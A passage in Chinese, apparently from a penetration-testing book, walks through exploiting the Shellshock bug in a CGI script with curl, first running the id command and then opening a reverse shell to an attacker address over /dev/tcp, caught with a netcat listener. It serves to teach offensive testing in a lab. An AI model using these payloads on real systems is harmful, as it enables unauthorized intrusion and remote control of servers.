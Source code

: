 图 6.10 – Shellshock 漏洞利用的输出

这是有效载荷的解析：

+   `curl` : 这是一个用于发起 HTTP 请求的命令行工具。

+   `-A "() { ignored; };** : **-A`选项设置 HTTP 请求的用户代理字符串。在这种情况下，它被设置为一个精心构造的函数定义，利用 Shellshock 漏洞。

+   `echo Content-Type: text/plain ; echo ; echo ;` : 这些`echo`命令用于构建有效的 HTTP 响应头和正文。它们确保响应被视为纯文本，并包含必要的换行符。

+   `/usr/bin/id` : 这是将在目标系统上执行的实际命令。在此情况下，它是`id`命令，用于检索当前用户的信息。

+   `http://10.2.10.1:8080/victim.cgi` : 这是目标系统上易受攻击的**公共网关接口**（**CGI**）脚本的 URL。

当此有效载荷被发送到易受攻击的 CGI 脚本时，用户代理字符串中的精心构造的函数定义会作为环境变量传递给脚本。Bash，通常用于执行 CGI 脚本，解析环境变量并执行注入的命令（**/usr/bin/id**）。然后，命令的输出将包含在 HTTP 响应中，允许攻击者获取结果。

在我们之前用来利用 Shellshock 的`curl`命令中，让我们将命令替换为一个可以使易受攻击系统连接到我们 IP 地址的反向 Shell 命令。

这是我们更新后的利用代码：

```
 $ curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /bin/bash -l > /dev/tcp/10.2.10.99/4444 0<&1 2>&1" http://10.2.10.1:8080/victim.cgi
```

这个 Bash 命令打开一个反向 Shell 连接：

+   `/bin/bash -l` : 这会启动一个新的 Bash Shell 会话，作为登录 Shell。

+   `> /dev/tcp/10.2.10.99/4444` : 这将 Shell 的标准输出（**STDOUT**）重定向到一个与`10.2.10.99` IP 地址和端口`4444`的 TCP 连接。一旦你知道 Linux 中所有内容都是文件或在文件系统中出现时，这个部分就能更容易理解了。

+   `0<&1`：将标准输入（**STDIN**）重定向到`STDOUT`，使从远程主机发送的命令能够被 Shell 执行。

+   `2>&1`：将标准错误（**STDERR**）与`STDOUT`合并，因此所有的 Shell 输出和错误信息都会发送到远程主机。

在执行漏洞利用之前，我们必须准备好通过以下命令捕获反向 Shell 连接：

```
 $ nc -nlvp 4444
```

这是解释：

+   `nc`：这是`Netcat`命令

+   下面是`-** **nlvp 4444`参数的分解

    +   `n`：仅使用数字 IP 地址，无 DNS

    +   `l`：监听入站连接

    +   `v`：详细

    +   `p 4444`：监听器的本地端口号

提示

Netcat 几乎可以创建你所需的任何类型的连接，既可以作为客户端，也可以作为服务器。它通常用于端口扫描、文件传输、端口监听，甚至作为渗透测试中的后门。

在一个终端中，我执行 Netcat 命令。然后，在第二个终端窗口中，我执行漏洞利用。在执行 Netcat 命令的终端中，我们看到从`10.2.10.1`建立了连接。最后，我输入`id`命令来查看拥有此 shell 的用户（**www-data**）。
